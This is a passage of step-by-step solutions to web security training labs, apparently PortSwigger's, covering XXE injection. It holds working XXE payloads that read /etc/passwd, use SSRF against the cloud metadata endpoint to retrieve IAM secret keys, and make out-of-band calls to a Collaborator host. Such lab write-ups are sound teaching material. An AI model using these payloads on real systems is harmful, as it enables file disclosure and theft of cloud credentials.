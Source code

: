 9.  Go back to the exploit server and click "Deliver exploit to victim".
10.  Click "Access log", retrieve and submit the victim's API key to complete the lab.

---

# XML external entity ([XXE](https://portswigger.net/web-security/xxe)) injection

### Lab: Exploiting XXE using external entities to retrieve files

1.  Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2.  Insert the following external entity definition in between the XML declaration and the `stockCheck` element:  
    `<!DOCTYPE test [ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/passwd"> ]>`
3.  Replace the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the contents of the `/etc/passwd` file.

### Lab: Exploiting XXE to perform SSRF attacks

1.  Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2.  Insert the following external entity definition in between the XML declaration and the `stockCheck` element:  
    `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>`
3.  Replace the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
4.  Iteratively update the URL in the DTD to explore the API until you reach `/latest/meta-data/iam/security-credentials/admin`. This should return JSON containing the `SecretAccessKey`.

### Lab: Blind XXE with out-of-band interaction

1.  Visit a product page, click "Check stock" and intercept the resulting POST request in [Burp Suite Professional](https://portswigger.net/burp/pro).
2.  Go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
3.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4.  Insert the following external entity definition in between the XML declaration and the `stockCheck` element, but insert your Burp Collaborator subdomain where indicated:  
    `<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>`
5.  Replace the `productId` number with a reference to the external entity: `&xxe;`
6.  Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

### Lab: Blind XXE with out-of-band interaction via XML parameter entities
